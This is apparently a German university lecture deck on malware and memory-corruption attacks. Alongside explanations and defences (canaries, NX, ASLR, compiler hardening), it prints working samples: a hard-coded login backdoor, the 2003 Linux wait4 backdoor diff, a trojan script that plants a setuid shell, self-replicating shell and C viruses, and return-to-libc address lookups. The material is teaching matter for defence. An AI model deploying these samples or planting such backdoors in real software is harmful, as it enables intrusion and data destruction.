## Bösartige Software {.title-slide data-state="hide-footer"}


Prof. Dr. Lukas Iffländer   
HTW Dresden  


---

## Agenda {.content-slide .agenda-slide}

<ul class="agenda">
<li class="agenda-item"><strong>01</strong><span>Logische Bomben</span></li>
<li class="agenda-item"><strong>02</strong><span>Hintertüren</span></li>
<li class="agenda-item"><strong>03</strong><span>Trojanische Pferde</span></li>
<li class="agenda-item"><strong>04</strong><span>Viren und Würmer</span></li>
<li class="agenda-item"><strong>05</strong><span>Rootkits</span></li>
<li class="agenda-item"><strong>06</strong><span>Buffer Overflows</span></li>
<li class="agenda-item"><strong>07</strong><span>Schutzmechanismen</span></li>
</ul>

---

## Überblick {.image-slide}



---

## Logische Bomben {.content-slide .pdf-slide}
<br>

::: {.callout-note title="Idee"}
Implantierung "bösartigen" Codes in Applikationen (oder in das BS), Aktivierung des Codes, sobald eine bestimmte Aktivierungsbedingung erfüllt
:::

- Aktivierungsbedingung: Eintritt eines Datums -> (logische) "Zeitbombe"
- meist simples Löschen von Daten
- häufig eingesetzt, um "Rache" für Entlassung o. ä. zu üben

---

## Ausschnitt aus dem McAfee-Aktivierungskalender {.content-slide .pdf-slide}
<br>

- **12. Mai** W97M/Alamat, W97M/Yous, VBS/Horty.b@MM, VBS/Horty.a@MM, WM/Alliance.A, WM/Envader.A (Intended), WM/Eraser.A:Tw, VBS/Aqui
- **13. Mai** VBS/Aqui, VBS/Zync, WM/Eraser.A:Tw, VBS/Alphae, WM/Envader.A (Intended), Twno.A, WM/BOOM.A;B, WM/BADBOY.A;B;C, WM/FRIDAY.D, WM/FRIDAY.A, WM/Goldsecret.B:Int,WM/CVCK1.B;E, W97M/Rapmak.a, W97M/Yous, W97M/Alamat, WM/SHOWOFF.G, W97M/BackHand.A, W97M/Idea.A, W97M/Digma
- **14. Mai** X97M/Jal.a, VBS/San@M, W97M/Este, W97M/Alamat, W32/SoftSix.worm, W97M/Yous, VBS/Valentin@MM, WM/PHARDERA.C ;D (INTENDED), W97M/Class.B, W97M/Class.D, W97M/Ekiam, WM/Eraser.A:Tw, VBS/Aqui
- **15. Mai** ...

---

## Logische Bomben {.content-slide .pdf-slide}
<br>

**Beispiel: USPA & IRA, Ft. Worth, TX, 1985**

- Donald Gene Burleson, Programmierer für Versicherung USPA & IRA, Ft. Worth, TX
- entlassen am 18. 9. 1985 (Grund: persönliche Schwierigkeiten)
- am 21. 9. 1985 um 3 Uhr werden 168.000 Datensätze aus der Datenbank des Unternehmens gelöscht
- Code wurde bei Restaurierung der gelöschten Datensätze gefunden
- vor Gericht:

> "Benson, who spent four days testifying about how he uncovered the scheme, said the destructive programs were created Sept. 2 and Sept. 3, 1985, on Burleson's computer terminal by someone using Burleson's computer password."

---

## Hintertüren (Back Doors) {.content-slide .pdf-slide}
<br>

::: {.callout-note title="Idee"}
Einbau (nichtdokumentierter) Schnittstellen in Software zwecks späteren (unautorisierten) Zugriffes auf das System.
:::

- Missbrauch von geheimen Debugging-Schnittstellen
- schwierig von BS-Seite aus zu erkennen
- häufiges Relikt aus der Produktentwicklung
- Behörden sind häufig der Meinung, ein Anrecht auf Hintertüren zu haben
- Gegenmaßnahme: Code Reviews, Open Source
- symmetrische vs. asymmetrische Hintertüren
- viele Würmer installieren Back Doors
- feste Master-BIOS-Passwörter, z. B. lkwpeter bei Award BIOS

---

## Beispiel einer Hintertür {.content-slide .code-slide}
<br>

**Beispiel: Login-Code mit Hintertür [1]**

```{.c code-line-numbers="|9"}
while (TRUE) {
  printf("login: ");
  get_string(name);
  disable_echoing();
  printf("password: ");
  get_string(password);
  enable_echoing();
  v = check_validity(name, password);
  if (v || strcmp(name, "zzzzz") == 0)
    break;
}
execute_shell(name);
```

---

## Beispiel 2: Backdoor im Linux-Kern; nice try {.content-slide .code-slide}
<br>


```{.diff code-line-numbers="|10-11"}
From: Larry McVoy [email blocked]
Subject: Re: BK2CVS problem
Date: Wed, 5 Nov 2003 14:23:02 -0800

On Wed, Nov 05, 2003 at 12:58:13PM -0800, Matthew Dharm wrote:
> Out of curiosity, what were the changed lines?
--- GOOD    2003-11-05 13:46:44.000000000 -0800
+++ BAD     2003-11-05 13:46:53.000000000 -0800
@@ -1111,6 +1111,8 @@
            schedule();
            goto repeat;
    }
+   if ((options == (__WCLONE|__WALL)) && (current->uid = 0))
+                    retval = -EINVAL;
    retval = -ECHILD;
end_wait4:
    current->state = TASK_RUNNING;

---
Larry McVoy          lm at bitmover.com
```

---

## Beispiel 2: Backdoor im Linux-Kern {.content-slide .pdf-slide}
<br>

- jemand modifizierte die Kernelquellen (unautorisiert)
- fraglicher Code gehört zu `sys_wait4()`, d. h. dem Systemruf `wait4()`
- "verkleideter Code"; `(current->uid = 0)` sieht so ähnlich aus wie `(current->uid == 0)`
- wenn jemand `wait4()` aufruft und die Optionen `__WCLONE` und `__WALL` sind gesetzt, so erhält der Rufende root-Rechte
- Code wurde beim Review entdeckt ("It's not a big deal, we catch stuff like this, but it's annoying to the CVS users.")

---

## Backdoors: Weitere Beispiele {.content-slide .pdf-slide}
<br>

- Das FBI hat (wahrscheinlich) Vertragspartner gebeten, den IPsec-Stack von OpenBSD mit Backdoors auszustatten (14. 12. 2010).
- <http://marc.info/?l=openbsd-tech&m=129236621626462&w=2>
- Die Konfiguration einiger Router der Firma D-Link kann mittels eines Browsers modifiziert werden, wenn der User-Agent-String die Zeichenkette "mlset_roodkcableoj28840ybtide" enthält (12. 10. 2013).
- <http://www.devttys0.com/2013/10/reverse-engineering-a-d-link-backdoor/>

---

## Trojanische Pferde ("Trojaner") {.content-slide .pdf-slide}
<br>

::: {.callout-note title="Idee"}
Dem Nutzer ein Programm unterschieben, welches bei Aktivierung unerlaubte Aktionen ausführt.
:::

- anstelle eines Eindringlings führt ein autorisierter Nutzer Schadcode aus
- Beispiel: gefälschter Login-Bildschirm
- Klassiker: Compiler, der unbemerkt bösartigen Code in übersetzte Programme einbaut (Ken Thompson: Reflections on Trusting Trust, CACM 4(27), S. 761ff.)
- vgl. "Staatstrojaner" (früher: "Bundestrojaner")
  - Strafverfolger dürfen Rechner kompromittieren, um ohne Wissen des Betroffenen Kommunikation zu überwachen
  - am 22.6.2017 im Bundestag mittels intransparentem Eilverfahren beschlossen

---

## Beispiel eines simplen UNIX-Trojaners {.content-slide .code-slide}
<br>

**(`ls` benennen und im Pfad eines Nutzers unterbringen)**

```{.bash code-line-numbers="|2|3|4-5"}
#!/bin/sh
cp /bin/sh /tmp/.xxsh
chmod u+s,o+x /tmp/.xxsh
rm ./ls
ls $*
```

- kopiert und versteckt Shell
- setzt das SetUID-Bit und macht die Shell für alle ausführbar
- -> läuft mit den Rechten des Eigentümers, anstatt mit denen des Aufrufenden
- Zugriff auf Daten des Angegriffenen

---

## (Computer)-Viren {.content-slide .pdf-slide}
<br>

> "A virus is a program that is able to infect other programs by modifying them to include a possibly evolved copy of itself."

- Fred Cohen

::: {.callout-note title="Definition 1"}
A virus is a program that reproduces its own code by attaching itself to other executable files in such a way that the virus code is executed when the infected executable file is executed.
:::

**Anmerkungen:**

- Implementationssprache irrelevant
- keine Schadroutine nötig
- Wurm ist ggf. auch ein Virus
- Beispiele: Bootsektor-V., Makro-V., polymorphe V.

---

## Beispiel für viralen Code {.content-slide .code-slide}
<br>

```{.bash code-line-numbers="|1|2|3"}
for i in *.sh; do
  if test "./$i" != "$0"; then
     tail -n 5 $0 | cat >> $i;
  fi
done
```

**Analyse:**

- beschränkt auf eigenes Verzeichnis
- mehrfache Infektion wahrscheinlich
- kein Payload
- leicht zu analysieren ;-)

---

## Ein (etwas) besserer Virus {.content-slide .code-slide}
<br>

```{.bash code-line-numbers="|3-5|7"}
for i in *.sh; do
  if test "./$i" != "$0"; then
     HOST=$(echo -n $(tail -10 $i))
     VIR=$(echo -n $(tail -10 $0))
     if [ "$HOST" != "$VIR" ]
       then
       tail -n 10 $0 | cat >> $i;
     fi
  fi
done
```

---

## Bestandteile eines Virus {.content-slide .pdf-slide}
<br>

- Infektionsmechanismus: Aufsuchen von Zielen, Replikation
- Routine(n) zum Verbergen: vor dem Nutzer oder Anti-Viren-Software
- Trigger: Entscheidung, ob bzw. wann Nutzlast aktiviert wird
- Nutzlast: zufälliger oder beabsichtigter Schaden oder "Spaß"

---

## Simpler Virus in C {.content-slide .code-slide}

**`blackwolf.c`, leicht modifiziert**

```{.c}
#include <stdio.h>
#include <dos.h>
#include <dir.h>
FILE * Virus, * Host; int x, y, done; char buff[256]; struct ffblk ffblk;
int main(char argc, char * argv[]) {
    done = findfirst("*.com", &ffblk, 0); /* Find a .COM file */
    while (!done) { /* Loop through all .COM files */
        printf("Infecting %s\n", ffblk.ff_name); /* Print the name of the file */
        Virus = fopen(argv[0], "rb"); /* Open the virus */
        Host = fopen(ffblk.ff_name, "r+b"); /* Open the host */
        x = 9504; /* Offset of the virus */
        while (x > 256) { /* Copy the virus to the host */
            fread(buff, 1, 256, Virus); fwrite(buff, 1, 256, Host); x -= 256;
        }
        fread(buff, 1, x, Virus); fwrite(buff, 1, x, Host); fcloseall();
        done = findnext(&ffblk); /* Find the next .COM file */
    }
    return 0;
}
```

---

## Analyse: Blackwolf-Virus in C {.content-slide .pdf-slide}
<br>

- sucht alle .COM-Dateien im aktuellen Verzeichnis und infizierte diese (auf einmal) -> schnelle Infektion
- überschreibender Virus
- mäßig destruktiv: Virus-Code überschreibt Anfang der Ziele
- verbirgt sich nicht
- keine Nutzlast
- infiziert bei jeder Aktivierung, Ziele wachsen nicht, da überschreibend

---

## Weitere Informationen zu Viren {.content-slide .pdf-slide}
<br>

- "An Illustrated Guide to the Worst Viruses in Computer History":
- <http://cargocollective.com/computerviruscatalog/>
- Bedeutung rückläufig
- Schutzkonzepte moderner Betriebs- und Dateisysteme
- typischer Verbreitungsweg - Tausch von Datenträgern mit "Raub"kopien - irrelevant
- i. a. keine wirtschaftliche Verwertbarkeit

---

## Würmer {.content-slide .pdf-slide}
<br>

> "An independently replicating and autonomous infection agent, capable of seeking out new host systems and infecting them via the network."

- Jose Nazario

**Bekannte Vertreter:**

- W32.Blaster
- Melissa
- Mydoom
- Sasser
- Conficker
- WannaCry

---

## Komponenten eines Wurms I {.content-slide .pdf-slide}
<br>

1. Aufklärung neuer Hosts als potentielle Angriffsziele
   - IP-Adressräume (partiell) durchsuchen
   - lokale Suche in (z. B.) Konfigurationsdateien
   - OS Fingerprinting, um BS-Typ und -Version zu ermitteln
2. Angriffscode
   - Remote Exploit bekannter Schwachstellen
   - Trojanisches Pferd (z.B. Mail mit attached Binary)
   - benötigt für jede anzugreifende Plattform Exploit
3. Kommunikation
   - z. B. mittels ICMP, UDP, ..., E-Mail
   - über verdeckte Kanäle
   - Verbergen beteiligter Prozesse und Sockets mittels Kernelmodul oder durch Störung von Überwachungssoftware

---

## Komponenten eines Wurms II {.content-slide .pdf-slide}
<br>

4. Kommandoschnittstelle
   - interaktiv oder indirekt (script-gesteuert)
   - typische Kommandos: Up-/Download von Dateien, Flut-Ping, Generierung von HTTP-Requests, ...
5. Verwaltung der erfolgreich angegriffenen Hosts
   - verteilte oder zentralisierte Datenbank
   - Liste aller befallenen Rechner
   - in privatem IRC-Channel

---

## Weitere Begriffe {.content-slide .pdf-slide}
<br>

- **Ransomware**
  - (kryptografisch sichere) Verschlüsselung des Massenspeichers
  - Entschlüsselung nur nach Zahlung eines "Lösegelds"
  - gegenwärtig meistverbreitete Form bösartiger Software
- **Rootkit**
  - Software, die zur Verschleierung der Kompromittierung eines Rechners dient
- Spyware - zeichnet Nutzerverhalten auf
- Keylogger: Gerät zum Aufzeichnen aller Tastenanschläge[^keylogger]
- Hoax (z. B. Good-Times-"Virus", Bonsai Kitten)
- illegales Cryptomining ("CoinHive")

[^keylogger]: Beispiel: <http://blogs.taz.de/hausblog/2017/02/17/keylogger-affaere-frueherer-taz-redakteur-verurteilt/>

---

## Hoax: Bonsai Kitten {.image-slide}



---

## Rootkits {.content-slide .pdf-slide}
<br>

::: {.callout-note title="Definition 2"}
Ein Rootkit ist ein (üblicherweise unerwünschtes) Programm, das sich nach Installation vor dem Nutzer verbirgt.
:::

**Merkmale:**

- Installation typischerweise nach erfolgreichem Einbruch, um Einbruchszweck abzusichern, z. B.:
- dauerhafte Unterwanderung des Systems
- Diebstahl von Passwortdaten per Keylogger oder Sniffer
- verschafft sich keine root-Privilegien, sondern benötigt diese bei Installation

**Eintrittsvektoren:**

- versehentliches Ausführen
- physischer Zugriff des Angreifers auf System
- Einbruch via Netzwerk

---

## Rootkits {.content-slide .pdf-slide}
<br>

**dateibasierte vs. kernelbasierte Rootkits**

1. dateibasierte Rootkits
   - tauschen Werkzeuge aus, die zur Detektion des Rootkits genutzt werde könnten (ssh, ps, ls, netstat)
   - Unterart: Library Rootkits: tauschen die entsprechenden Systembibliotheken aus
   - laufen im User Mode
2. kernelbasierte Rootkits
   - modifizieren den Kernel z. B. über Modulmechanismus oder Speicherabbild (/dev/kmem)
   - äußerst schwierig zu detektieren

---

## Rootkits: Gegenmaßnahmen {.content-slide .pdf-slide}
<br>

1. Unrechtmäßigen root-Zugriff verhindern
2. Unrechtmäßigen root-Zugriff verhindern (again!)
3. Deaktivierung des Modulmechanismus (-> alle Treiber statisch in den Kernel kompilieren)
4. Vergleich nach außen geöffnete Ports (netstat) mit externem Portscan (nmap) -> Achtung, "Hackertool"!
5. Suche nach charakteristischen Zeichenketten im Hauptspeicher (Werkzeug chkrootkit)
6. Boot von sauberem Datenträger (Live-CD) und Suche nach "verdächtigen" Dateien

---

## Lernziele {.content-slide .pdf-slide}
<br>

- Stack-Overflows erklären und Angriffsablauf beschreiben
- Return-to-libc/ROP einordnen und Grenzen klassischer Gegenmaßnahmen benennen
- Härtungsmaßnahmen in der Praxis anwenden und beurteilen
- Relevante Begriffe und Schutzmechanismen sicher verwenden (Canary, W⊕X, ASLR)

---

## Buffer Overflow {.content-slide .code-slide}
<br>

**(Sehr einfaches) verwundbares Programm**

```{.c code-line-numbers="|9"}
#include <stdio.h>
#include <string.h>

int main(int argc, char * argv[]) {
    char buf2[] = "Das Passwort lautet: 'Ken sent me'";
    char buffer[128];

    if (argc > 1) {
        strcpy(buffer, argv[1]);
        printf("Parameter: %s\n", buffer);
    }
    printf("Passwort: %s\n", buf2);
    return 0;
}
```

---

## Buffer Overflow: Prinzip {.content-slide .pdf-slide}
<br>

- bestimmte Funktionen der C-Bibliothek führen keine Längenprüfung ihrer Argumente aus (Klassiker: `strcpy()`)
- Idee: lokale Variablen (über deren Länge hinaus) mit einer solchen Funktion überfluten (Stack Overflow)
- Überschreiben der Rücksprungadresse auf dem Stack mit Adresse einer Schadroutine
- bei Verlassen der aktuellen Funktion -> Sprung zur Schadroutine
- Ursache: mögliches Verlassen von Feldgrenzen in C, ungeprüfte Länge der Argumente von Bibliotheksfunktionen wie `strcpy()` oder `gets()`, gezielte Manipulation von Zeigervariablen

---

## Stack Overflow: Ausschnitt des Stacks {.image-slide}



---

## Stack Overflow: Ausschnitt des Stacks {.image-slide}



---

## Stack Overflow: Ausschnitt des Stacks {.image-slide}



---

## Stack Overflow: Ausschnitt des Stacks {.image-slide}



---


## Stack Overflow: Ausschnitt des Stacks {.image-slide}



---

## Buffer Overflow: Einfache Gegenmaßnahmen {.content-slide .pdf-slide}
<br>

- Verzicht auf unsichere Funktionen, u.a. `strcpy()`, `strcat()`, `sprintf()`, `vsprintf()`, `gets()` bzw. Nutzung der Pendants mit Bereichsprüfung, aber:
- Semantik nicht übereinstimmend (z. B. nullterminiert `strncpy()` das Ziel nicht bei maximal langem String)
- Geschwindigkeitsnachteile
- Legacy Code?

---

## Buffer Overflow: StackGuard {.image-slide}

:::: {.columns}

::: {.column width="50%"}
**Idee**
Schutz d. Rücksprungadresse durch
zusätzliches Canary Word.
<br>

- Canary Word wird im Funktionsprolog
angelegt
- Overflow überschreibt Canary
- beim Rücksprung aus Funktion wird
Canary auf Integrität getestet
- Abbruch, wenn falscher Wert
:::

::: {.column width="50%"}

:::

::::


---

## Buffer Overflow: Wahl des Canary Word {.content-slide .table-slide}
<br>

Terminator Canary - Werte nutzen, die typische Zeichenkettenfunktionen terminieren

| Wert | Symbol | Semantik |
|---|---|---|
| `0x00` | - | stoppt `strcpy()` |
| `0x0a` | LF | stoppt `gets()` |
| `0x0d` | CR | |
| `-1` | EOF | stoppt `gets()` |

Tabelle: Terminator Canary

- optimal ist z. B. `0x000d0aff`
- Random Canary - erst zum Programmstart generiert; Angreifer kann darauf nicht mehr reagieren (Angreifer läuft parallel zum angegriffenen Programm)

---

## StackGuard {.content-slide .two-column-slide}
<br>

:::: {.columns}

::: {.column width="50%"}
**Idee**

1. Rücksprungadresse im Prolog in eine extra Tabelle kopieren
2. im Epilog Kopie der Rücksprungadresse wieder an entsprechende Position im Stack schreiben
3. keine Prüfung auf Identität
:::

::: {.column width="50%"}
**Grenzen des Konzepts**

- moderate Leistungseinbuße
- Lokale Variablen und Saved Frame Pointer nicht geschützt
- Canary Word u. U. durch Angreifer restaurierbar, wenn statisch
- vgl. "Bulba", "Kil3r": Bypassing Stackguard and Stackshield, Phrack, vol. 10, no. 56, 2000
:::

::::

---

## Ausführungsverbot beschreibbarer Seiten (W⊕X) {.content-slide .pdf-slide}
<br>

Einfachster Fall: Architektur unterstützt execute-Recht im Seitentabelleneintrag (Beispiele: sparc, ppc, ia64)

::: {.callout-important title="Problem"}
ia32 tut dies nicht.
:::

---

## No-Execute {.content-slide .pdf-slide}
<br>

**Lösung 1:** NX ("No-Execute") aka "Enhanced Virus Protection"

- erfordert Physical/Page Address Extension (PAE) - existiert eigentlich ab Pentium Pro
- NX jedoch erst ab Prescott-Kern (Intel), AMD64
- Seitentabelleneintrag: 64 Bit (statt 32 Bit)
- Seiten, Seitentabellen und Seitentabellenverzeichnis 4 KiB
- nur noch 1/4 der Einträge -> drittes Hierarchielevel (vgl. folgende Grafik)
- gegenwärtig: 36 Bit-Adressen (maximal: 52 Bit)
- Bit 63 ist das No-Execute-Bit

---

## Adressumsetzung bei PAE {.image-slide}



---

## Ausführungsverbot beschreibbarer Seiten (W⊕X) II {.content-slide .pdf-slide}
<br>

**Lösung 2:** Emulation in Software

- alle PTEs der zu schützenden Bereiche (Stack, Heap, Daten) haben initial Supervisor-Bit gesetzt
- -> Pagefault bei Zugriff
- Handler:
  - bei Instruction Fetch -> Abbruch der Task, Logging des Angriffs
  - bei Datenzugriff: Rücksetzen des SV-Bits, Zugriff ausführen (Überführung der Übersetzung in Data-TLB), Setzen des SV-Bits
- weitere Datenzugriffe durch DTLB gecacht
- nur möglich, wenn getrennte Daten- und Code-TLBs

---

## Ausführungsverbot beschreibbarer Seiten {.content-slide .pdf-slide}
<br>

**Einbau in Betriebssysteme:**

- Linux ab 2.6.8
- Windows XP ab SP2; kein Backport nach Windows 2000

---

## Address Space Layout Randomization (ASLR) {.content-slide .pdf-slide}
<br>

::: {.callout-note title="Beobachtung"}
Distanz zwischen Top-of-Stack (TOS) und anzugreifender Rücksprungadresse ist konstant, wird offline (werkzeuggestützt) erraten und in Exploit eingebaut.
:::

**Idee**

Anfangsadressen von Stack, Heap und Code werden zufällig zur Ladezeit generiert.

**Problem**

Eingeblendete shared Libraries müssen auch zufällig verteilt werden.

```{.bash}
$ cat /proc/self/maps | grep libc
```

- erschwert auch Return-to-libc-Exploits
- unsicher auf allen modernen cachebasierten Architekturen [2]

---

## Return-to-libc {.content-slide .pdf-slide}
<br>

- Manipulation einer Rücksprungadresse auf dem Stack mittels Buffer Overflow
- jedoch ("Rück"-)Sprung in eine Shared Library (libc) anstatt zu eigenem Shellcode
- (Abb. nächste Folie)
- Beispiel: `system("/bin/sh");`
- (führt `/bin/sh -c /bin/sh` aus)
- wenn angegriffenes Programm setuid root ist, wird damit eine root-Shell geöffnet
- macht nichtausführbaren Stack wirkungslos

---

## Stacklayout bei Return-to-libc {.image-slide}



---

## Anmerkungen {.content-slide .pdf-slide}
<br>

- dummy-Feld ist "Rücksprungadresse", die angesprungen wird, wenn `system()` verlassen wird
- irrelevant, wenn interaktive Shell gestartet wurde, da diese nicht zurückkehrt

---

## Bestimmung der Einsprungadresse (statisch) {.content-slide .code-slide}
<br>

```{.text}
robge@hadrian$ cat dummy.c
int main()
{
  system();
}
robge@hadrian$ gcc -o dummy dummy.c
robge@hadrian$ gdb -q dummy
Using host libthread_db library "/lib/tls/i686/cmov/libthread_db.so.1".
(gdb) break main
Breakpoint 1 at 0x8048362
(gdb) run
Starting program: /home/local/robge/src/cracking/dummy

Breakpoint 1, 0x08048362 in main ()
(gdb) print system
$1 = {<text variable, no debug info>} 0xb7ed8990 <system>
```

Gegenmittel: Address Space Layout Randomization, Parameterübergabe in Registern (ELF64-SystemV ABI bei x86-64)

---

## Dynamische Ermittlung der Einsprungadresse {.content-slide .pdf-slide}
<br>

**Idee:**

- Kindprozess erzeugen, der kontinuierlich `system("")` aufruft
- Instruction Pointer springt zwischen `main()` und `system()` (libc-Funktion)
- mittels `ptrace()` kann die genaue Adresse von `system()` bestimmt werden

---

## Verkettung zweier libc-Rufe {.image-slide}



---

## Verkettung zweier libc-Rufe {.content-slide .pdf-slide}
<br>

- Reihenfolge `setuid()` -> `system()`
- `setuid(0)` leider unmöglich, da Pufferüberlauf damit vorzeitig abbrechen würde
- nur möglich, wenn erster libc-Aufruf genau ein Argument übernimmt (dummy-Lücke)
- weitere Rufe nicht möglich

---

## Return-to-libc-Angriff: Weitere Techniken {.content-slide .pdf-slide}
<br>

- mehr als 2 libc-Aufrufe mit beliebig vielen Argumenten (!!)
- Frame Pointer Lifting
- Frame Faking
- Nullbytes im angegriffenen Puffer ebenfalls möglich

---

## Heap-Overflow {.content-slide .pdf-slide}
<br>

- Idee: Manipulation von auf dem Heap angelegten Variablen durch das Überfluten eines unmittelbar davor gelegenen Puffers
- keine Rücksprungadresse -> implizite Manipulation des Programmflusses unmöglich
- Reihenfolge der Adressen abhängig von Allokationsreihenfolge
- ⇒ Exploit weniger regulär (abhängig vom Typ der manipulierten Information)

---

## Integer-Overflow {.content-slide .pdf-slide}
<br>

::: {.callout-note title="Idee"}
Überlauf des Zahlenbereichs von Integervariablen führt zu negativen Zahlen, die in Vergleichsoperationen und als Funktionsargumente unterschiedlich interpretiert werden.
:::

- kein Schadcode ausführbar
- Ziel: DoS

---

## Integer-Overflow: Beispiel {.content-slide .code-slide}
<br>

```{.c code-line-numbers="|3|6"}
int copybuffer(char * buffer, int len) {
    char mybuffer[800];
    if (len > 800) {
        return -1;
    }
    return memcpy(mybuffer, buffer, len);
}
```

**Analyse:**

- `memcpy` erwartet unsigned int als 3. Parameter
- negatives `len` durch Test nicht erkannt
- -> wird als (sehr große) Längenangabe interpretiert
- Überlauf von `mybuffer`

---

## Härtungsmaßnahmen in der Praxis {.content-slide .code-slide}
<br>

- Compiler/Linker: `-fstack-protector-strong`, `-D_FORTIFY_SOURCE=2`
- Position-Independent Executables: `-fPIE -pie`
- RELRO + sofortiges Auflösen: `-Wl,-z,relro -Wl,-z,now`
- Optional: harte Fehler statt Lazy Binding: `-Wl,-z,defs`
- Laufzeit: ASLR aktiv (Linux: `/proc/sys/kernel/randomize_va_space = 2`)

```{.bash}
gcc -O2 -fstack-protector-strong -D_FORTIFY_SOURCE=2 \
    -fPIE -pie -Wl,-z,relro -Wl,-z,now -o app app.c
```

---

## Leseempfehlungen {.content-slide .pdf-slide}
<br>

- Jon Erickson. *Hacking. The art of exploitation.* [Nachdr.] Sacherschließung aus ppn 121066640 übernommen. San Francisco: No Starch Press, 2006. 241 S. ISBN: 1593270070
- Aleph One. "Smashing the Stack for Fun and Profit". In: *Phrack Magazine* (1996). URL: <https://cir.nii.ac.jp/crid/1571417125434029312>
- <http://www.phrack.org/>

---

## Literaturverzeichnis I {.content-slide .pdf-slide}
<br>

[1] Andrew S. Tanenbaum und Herbert Bos. *Modern operating systems.* 4. Aufl. Boston: Prentice Hall, 2015. 1101 S. ISBN: 013359162X.

[2] Ben Gras u. a. "ASLR on the Line: Practical Cache Attacks on the MMU". In: *Proceedings 2017 Network and Distributed System Security Symposium.* NDSS 2017. Internet Society, 2017. DOI: 10.14722/ndss.2017.23271.

[3] Jon Erickson. *Hacking. The art of exploitation.* [Nachdr.] Sacherschließung aus ppn 121066640 übernommen. San Francisco: No Starch Press, 2006. 241 S. ISBN: 1593270070.

[4] Aleph One. "Smashing the Stack for Fun and Profit". In: *Phrack Magazine* (1996). URL: <https://cir.nii.ac.jp/crid/1571417125434029312>.

---

## Vielen Dank! {.title-slide data-state="hide-footer"}


Prof. Dr. Lukas Iffländer   
HTW Dresden  

